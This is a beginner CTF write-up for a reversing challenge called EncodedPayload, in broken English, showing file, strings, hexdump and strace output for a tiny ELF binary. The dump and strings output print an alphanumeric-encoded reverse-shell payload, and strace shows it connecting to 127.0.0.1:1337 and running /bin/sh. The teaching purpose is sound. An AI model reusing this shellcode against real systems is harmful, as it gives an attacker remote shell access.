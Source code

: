 # EncodedPayload

Difficulty:: #easy 

## Introduction
Thish challenge give us a unix executable file with i very low size where the flag can be found inside the `strace` output.

## Target data
- `File`: `rev_encodedpayload.zip`

## Challenge Description
*Buried in your basement you've discovered an ancient tome. The pages are full of what look like warnings, but luckily you can't read the language! What will happen if you invoke the ancient spells here?*

## Enumeration

We only have a file called `encodedpayload`.
```shell
magor$ tree rev_encodedpayload
rev_encodedpayload
└── encodedpayload
```

So due it has not extension probably is a binary so first that all I want to identify the file type:
```shell
magor$ file encodedpayload
encodedpayload: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, no section header
```

I use `strings` to see what i got:

```shell
magor$ strings encodedpayload
[SYIIIIIIIIICCCCCCC7QZjAXP0A0AkAAQ2AB2BB0BBABXP8ABuJI01iKzWHcScW3F3Pj6bOyHax0cVZmK0MCpYh0WO8Mk0PIbYYibHsOS0wp7qqxUReP5UfYmYhaLpCVV0PQF3LsfcOyIqZmMPF2ax0ndo1cE8e8fOvORBCYMYHcF2PSOyHaNPFkJmopRJ4KChmI3bU6e8Tme3ni8gCXFO2S1xC0U8VOsR59RNK9KSaByx4ZS0EPUPauPcphrOq0bh0Tg2cK2p0LSJso1ct43B51e31uSormFSGCTsSMgpV7rsLI9qJmmPAA
```
That is weird, Ussually not get a bunch of character like this in a binary so i try to open it with Ghidra but i found that there is nothing compresible and i note that the size of the file is very low, so i use hexdump to see the bytes

```shell
magor$ hexdump -C encodedpayload
00000000  7f 45 4c 46 01 01 01 00  00 00 00 00 00 00 00 00  |.ELF............|
00000010  02 00 03 00 01 00 00 00  54 80 04 08 34 00 00 00  |........T...4...|
00000020  00 00 00 00 00 00 00 00  34 00 20 00 01 00 00 00  |........4. .....|
00000030  00 00 00 00 01 00 00 00  00 00 00 00 00 80 04 08  |................|
00000040  00 80 04 08 93 01 00 00  d2 02 00 00 07 00 00 00  |................|
00000050  00 10 00 00 d9 e8 d9 74  24 f4 5b 53 59 49 49 49  |.......t$.[SYIII|
00000060  49 49 49 49 49 49 43 43  43 43 43 43 43 37 51 5a  |IIIIIICCCCCCC7QZ|
00000070  6a 41 58 50 30 41 30 41  6b 41 41 51 32 41 42 32  |jAXP0A0AkAAQ2AB2|
00000080  42 42 30 42 42 41 42 58  50 38 41 42 75 4a 49 30  |BB0BBABXP8ABuJI0|
00000090  31 69 4b 7a 57 48 63 53  63 57 33 46 33 50 6a 36  |1iKzWHcScW3F3Pj6|
000000a0  62 4f 79 48 61 78 30 63  56 5a 6d 4b 30 4d 43 70  |bOyHax0cVZmK0MCp|
000000b0  59 68 30 57 4f 38 4d 6b  30 50 49 62 59 59 69 62  |Yh0WO8Mk0PIbYYib|
000000c0  48 73 4f 53 30 77 70 37  71 71 78 55 52 65 50 35  |HsOS0wp7qqxUReP5|
000000d0  55 66 59 6d 59 68 61 4c  70 43 56 56 30 50 51 46  |UfYmYhaLpCVV0PQF|
000000e0  33 4c 73 66 63 4f 79 49  71 5a 6d 4d 50 46 32 61  |3LsfcOyIqZmMPF2a|
000000f0  78 30 6e 64 6f 31 63 45  38 65 38 66 4f 76 4f 52  |x0ndo1cE8e8fOvOR|
00000100  42 43 59 4d 59 48 63 46  32 50 53 4f 79 48 61 4e  |BCYMYHcF2PSOyHaN|
00000110  50 46 6b 4a 6d 6f 70 52  4a 34 4b 43 68 6d 49 33  |PFkJmopRJ4KChmI3|
00000120  62 55 36 65 38 54 6d 65  33 6e 69 38 67 43 58 46  |bU6e8Tme3ni8gCXF|
00000130  4f 32 53 31 78 43 30 55  38 56 4f 73 52 35 39 52  |O2S1xC0U8VOsR59R|
00000140  4e 4b 39 4b 53 61 42 79  78 34 5a 53 30 45 50 55  |NK9KSaByx4ZS0EPU|
00000150  50 61 75 50 63 70 68 72  4f 71 30 62 68 30 54 67  |PauPcphrOq0bh0Tg|
00000160  32 63 4b 32 70 30 4c 53  4a 73 6f 31 63 74 34 33  |2cK2p0LSJso1ct43|
00000170  42 35 31 65 33 31 75 53  6f 72 6d 46 53 47 43 54  |B51e31uSormFSGCT|
00000180  73 53 4d 67 70 56 37 72  73 4c 49 39 71 4a 6d 6d  |sSMgpV7rsLI9qJmm|
00000190  50 41 41                                          |PAA|
00000193
```

Definitely this binary is so strange, this part was alittle hard to me until i rollback to the basics , like following the [Checklist basic to reversing](https://fareedfauzi.gitbook.io/ctf-checklist-for-beginner/reverse-engineering)

And I found it in `strace` by cassuality in the `echo` inside the `execve`:

```shell
$ strace ./encodedpayload
execve("./encodedpayload", ["./encodedpayload"], 0x7fff2fe61e20 /* 26 vars */) = 0
strace: [ Process PID=8094 runs in 32 bit mode. ]
socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
dup2(3, 2)                              = 2
dup2(3, 1)                              = 1
dup2(3, 0)                              = 0
connect(3, {sa_family=AF_INET, sin_port=htons(1337), sin_addr=inet_addr("127.0.0.1")}, 102) = -1 ECONNREFUSED (Connection refused)
syscall_0xffffffffffffff0b(0xffd21948, 0xffd21940, 0, 0, 0, 0) = -1 ENOSYS (Function not implemented)
execve("/bin/sh", ["/bin/sh", "-c", "echo HTB{xxxxxxxxxxxxxxx}"], NULL) = 0
strace: [ Process PID=8094 runs in 64 bit mode. ]
...SNIP...
```